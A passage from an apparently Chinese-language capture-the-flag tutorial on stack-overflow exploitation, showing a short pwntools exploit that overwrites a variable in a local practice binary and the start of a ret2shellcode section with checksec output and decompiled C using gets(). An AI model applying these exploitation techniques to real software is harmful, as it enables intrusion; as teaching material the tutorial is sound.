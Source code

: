 覆盖完 v1 直接修改 v2 即可

![image-20230712123652068](PWN/image-20230712123652068.png)

EXP

```python
p = process('PWN1')
key = 0x41348000

payload = b'Z' * 44 + p32(key)

# gdb.attach(p)
p.sendline(payload)
p.interactive()
```



### ret2shellcode

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。



#### Normal

首先检测程序开启的保护

```
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序几乎没有开启任何保护，并且有可读，可写，可执行段。我们再使用 IDA 看一下程序

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
